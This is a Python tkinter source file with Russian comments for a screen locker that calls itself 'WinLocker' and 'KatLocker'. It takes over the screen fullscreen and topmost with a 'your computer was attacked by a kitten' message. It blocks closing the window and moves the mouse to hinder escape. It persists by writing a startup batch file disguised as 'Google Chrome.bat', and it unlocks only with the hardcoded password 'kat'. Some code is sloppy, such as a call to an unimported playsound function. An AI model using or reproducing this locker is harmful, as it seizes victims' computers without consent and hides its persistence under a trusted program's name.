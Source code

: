 #ВАЖНО ПАРОЛЬ:kat

#МОЁ ТЗ В КОМЕНТАРИЯХ К КОДУ

#Импортируем библиотеки
import tkinter
from tkinter import *
import tkinter as tk
from tkinter import ttk
import getpass
import sys
import os
import os.path
import pyautogui
from time import sleep
import requests
from io import BytesIO
from PIL import Image, ImageTk

url = 'https://i.gifer.com/LF0M.gif' #Этоу гифку необходимо скачать и поместить в один фаил с кодом

window = Tk() #Создание окна 

photo = PhotoImage(file = "bg.gif") # Отвечает за картинку
w = Label(window, image=photo)
w.pack() 

b1= Button(window, text='Нажми на меня', command=window.destroy) #Отвечает за кнопку закрытия

b1.pack(pady=10)


window.resizable(0, 0) # Отвечает за изменение окна 


window.title("Kat")   # Название окна

window['bg'] = 'black'


window.mainloop() #Закрыть окно

USER_NAME = getpass.getuser()

window = Tk()
window.title("WinLocker by GDisclaimer")  
window.geometry('400x250')
window['bg'] = 'black'


normal_width = 1920
normal_height = 1080


screen_width = window.winfo_screenwidth()
screen_height = window.winfo_screenheight()


percentage_width = screen_width / (normal_width / 100)
percentage_height = screen_height / (normal_height / 100)


scale_factor = ((percentage_width + percentage_height) / 2) / 100

fontsize = int(20 * scale_factor)
minimum_size = 10
if fontsize < minimum_size:
       fontsize = minimum_size

fontsizeHding = int(72 * scale_factor)
minimum_size = 40
if fontsizeHding < minimum_size:
       fontsizeHding = minimum_size


default_style = ttk.Style()
default_style.configure('New.TButton', font=("Helvetica", fontsize))

def play(test):
        playsound('sound.mp3', False)

def add_to_startup(file_path=""):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    bat_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' % USER_NAME
    with open(bat_path + '\\' + "Google Chrome.bat", "w+") as bat_file:
        bat_file.write(r'start "" %s' % file_path)

def block():
    pyautogui.moveTo(x=680,y=800)
    window.protocol("WM_DELETE_WINDOW",block)
    window.update()

def fullscreen():
    window.attributes('-fullscreen', True, '-topmost', True)

def clicked():
    res = format(txt.get())
    if res == 'kat':
        file_path = '/tmp/file.txt'
        file_path = r'C:\Users\%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Google Chrome.bat' % USER_NAME
        os.remove(file_path)
        sys.exit()

add_to_startup("C:\\myFiles\\main.py")
fullscreen()

txt_one = Label(window, text='KatLocker', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_two = Label(window, text='Мяу 😀', font=("Arial Bold", fontsizeHding), fg='red', bg='black')
txt_three = Label(window, text='К сожалению ваш компютер отакован котиком', font=("Arial Bold", fontsize), fg='white', bg='black')

txt_one.grid(column=0, row=0)
txt_two.grid(column=0, row=0)
txt_three.grid(column=0, row=0)

txt_one.place(relx = .01, rely = .01)
txt_two.place(relx = .01, rely = .11)
txt_three.place(relx = .01, rely = .21)


txt = Entry(window)  
btn = Button(window, text="Котик вводиться туть ;)", command=clicked)  
txt.place(relx = .28, rely = .5, relwidth=.3, relheight=.06)
btn.place(relx = .62, rely = .5, relwidth=.1, relheight=.06)

block()

window.mainloop()

#ВАЖНО ПАРОЛЬ:kat
